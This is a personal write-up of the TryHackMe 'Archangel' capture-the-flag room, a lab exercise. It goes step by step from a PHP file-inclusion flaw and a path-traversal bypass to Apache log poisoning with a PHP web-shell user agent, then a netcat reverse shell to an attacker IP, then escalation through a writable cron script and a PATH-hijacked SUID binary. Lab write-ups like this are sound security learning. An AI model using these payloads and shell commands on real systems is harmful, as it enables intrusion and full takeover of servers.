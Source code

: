 # Archangel

https://tryhackme.com/room/archangel

Simple enough room, though a bit longer than usual which was nice - required a few steps and different flags to get from anon to root. It had a couple of rick rolls for a few files though which I could do without. Eh.

1. nmap showed 22, and 80
2. on 80 was a site off some template, with enumeration finding nothing. however, the pages listed an email called `support@mafialive.thm` which was a hint for a subdomain; typically .thm is used for hidden subdomains on try hack me - though another, more obvious hint was that the first question of the room is 'what subdomain did you find' :D
3. going to this subdomain showed an empty page - enumeration found robots.txt and test.php, with the former also pointing to the latter
4. test.php had a link that used a ?view= parameter to load another php page; obvious php lfi vulnerability
5. going to `test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php` retrieved the test page content as base64, which when extracted showd the core logic / filter (one of the flags was also in the source):

    ```php
    if(isset($_GET["view"])){
          if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                  include $_GET['view'];
                }else{

        echo 'Sorry, Thats not allowed';
                }
    }
    ```

6. a bypass for the above is something like: `test.php?view=/var/www/html/development_testing/.././.././.././../etc/passwd`, which got me the password file
7. with all this, the next step is something like apache log poisoning (the server was apache), and the hint for the next step was 'poison'

At this point I actually got stuck - might have just been tired. For teh life of me, I could not find and retrieve the apache access log. i got the error log, but the error log would encode anything it got sent and so I couldn't use it for poisoning. not sure what the issue was - I eneded up just sleeping on it. next day, worked almost immediately so... either the room VM had loaded up wrong, or I made some stupid mistake somewhere - probably the latter. I suspect it might have required an exact set of those .././.. above, to get the right path, maybe.

8. this request got the access logs: `test.php?view=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log`, which showed paths and importantly, user-agent.
9. i submitted a normal request with the user agent header set to `<?php echo 'test' ?>`, and confirmed when retrieving the logs i got 'test' in an entry.
10. using this i submitted a request with the user agent `<?php system($_GET[1]); ?>`, then confirmed that `test.php?1=ls&view=...` would get me the contents of the webdirectory
11. finally i used a url encoded version of `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.188.208 4444 >/tmp/f` to get a shell as www-data.
12. on the machine, user flag was in archangels' home directory. enumeration from here revealed, via `cat /etc/crontab` that the archangel user was running a script that was writable: `/opt/helloworld.sh`, every minute
13. i appended a second reverse shell binder like above to this, to port 4445 this time, and caught a shell as archangel.
14. this allowed me to open a folder named `secret` under the archangel home dir, for the second flag.
15. in here was a suid binary (running as root) called backup. I ran strings against it, finding it ran the command: `cp /home/user/archangel/myfiles/* /opt/backupfiles`
16. this looked like path exploitation, and it was; i ran `echo /bin/bash -p > cp`, `chmod +x cp`, `export PATH=/home/archangel/secret:$PATH`, then ran `./backup` to get a root shell.
